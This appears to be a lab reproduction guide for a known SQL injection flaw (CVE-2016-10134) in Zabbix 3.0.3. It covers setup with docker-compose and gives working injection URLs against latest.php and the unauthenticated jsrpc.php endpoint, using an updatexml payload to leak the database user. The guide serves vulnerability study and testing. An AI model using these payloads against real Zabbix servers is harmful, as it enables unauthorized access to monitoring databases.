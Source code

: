 # zabbix latest.php SQL Injection Vulnerability (CVE-2016-10134)

Zabbix is ​​a server monitoring software, which consists of modules such as server, agent, and web. The web module is written by PHP to display the results in the database.

## Operating environment

Run the following command to start zabbix 3.0.3:

```
Docker-compose up -d
```

After executing the command, the database (mysql), zabbix server, zabbix agent, zabbix web will be started. If the memory is slightly smaller, there may be a case where a container hangs. We can check the container status via `docker-compose ps` and restart the container with `docker-compose start`.

## Recurring vulnerabilities

Visit `http://your-ip:8080` and log in to the guest account with the account `guest` (password is empty).

After logging in, check the `zbx_sessionid` in the cookie and copy the 16 characters:

![](1.png)

Use these 16 characters as the value of sid, access `http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()) , 0)`, visible successful injection:

![](2.png)

This vulnerability can also be triggered by jsrpc.php without logging in: `http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0 , concat(0xa,user()),0)`:

![](3.png)